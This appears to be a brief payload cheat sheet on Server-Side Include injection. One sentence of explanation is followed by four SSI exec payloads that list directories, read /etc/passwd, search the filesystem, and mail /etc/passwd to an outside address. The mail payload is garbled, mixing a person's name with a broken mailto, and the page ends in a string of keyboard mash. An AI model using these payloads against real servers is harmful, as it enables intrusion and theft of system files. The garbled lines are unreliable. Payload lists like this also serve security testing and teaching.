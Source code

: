 <h1>What is SSi Injection?</h1>
<P>SSI injection (Server-side Include) is a server-side exploit that lets an attacker send code into an application to be executed later, locally, by the web server.</p>

**Payloads :**
```
<!--#exec cmd="/bin/ls /" --><br/>
<!--#exec cmd="cat /etc/passwd" --><br/>
<!--#exec cmd="find / -name *.* -print" --><br/>
<!--#exec cmd="mail Florian Roth @4nc4p <mailto:Florian Roth @4nc4p> < cat /etc/passwd" --><br/>
```
ajwjwjejjwjwjwjhehhhejejeejejejejej
